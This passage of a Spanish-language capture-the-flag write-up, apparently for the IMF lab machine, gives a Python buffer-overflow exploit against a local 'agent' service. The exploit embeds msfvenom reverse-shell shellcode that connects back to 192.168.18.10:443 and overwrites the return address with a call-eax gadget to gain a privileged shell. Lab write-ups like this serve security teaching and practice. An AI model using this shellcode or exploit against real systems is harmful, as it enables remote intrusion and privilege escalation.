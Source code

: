 Una vez tenemos toda esta información lo que haremos será construirnos el siguiente **exploit** en **python**.

```python
#!/usr/bin/python3

from struct import pack
import socket

ip_addr =  "127.0.0.1"
port = 7788

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.18.10 LPORT=443 -b '\x00\x0a\x0d' -f c
shellcode = (b"\xdd\xc4\xbf\x69\xc6\x56\xf1\xd9\x74\x24\xf4\x58\x31\xc9"
b"\xb1\x12\x31\x78\x17\x03\x78\x17\x83\x81\x3a\xb4\x04\x60"
b"\x18\xce\x04\xd1\xdd\x62\xa1\xd7\x68\x65\x85\xb1\xa7\xe6"
b"\x75\x64\x88\xd8\xb4\x16\xa1\x5f\xbe\x7e\xf2\x08\x52\x74"
b"\x9a\x4a\x53\x89\xe1\xc2\xb2\x39\x73\x85\x65\x6a\xcf\x26"
b"\x0f\x6d\xe2\xa9\x5d\x05\x93\x86\x12\xbd\x03\xf6\xfb\x5f"
b"\xbd\x81\xe7\xcd\x6e\x1b\x06\x41\x9b\xd6\x49")

# objdump -d agent | grep "FF D0" -i
# 8048563:  ff d0                   call   *%eax
eip = pack("<L", 0x08048563) # call eax
offset = 168

payload = shellcode + b"A" * (offset - len(shellcode)) + eip + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_addr, port))

s.recv(1024)
s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
s.recv(1024)
s.send(payload)
s.close()
```

Al ejecutar el script observaremos como recibimos la Reverse Shell por lo que habremos escalado privilegios gracias a la explotación de un Buffer OverFlow, en el caso de que queramos tener una consola intereactiva debemos aplicar un Tratamiento de la TTY.

![Pasted image 20240903001141.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240903001141.png>)
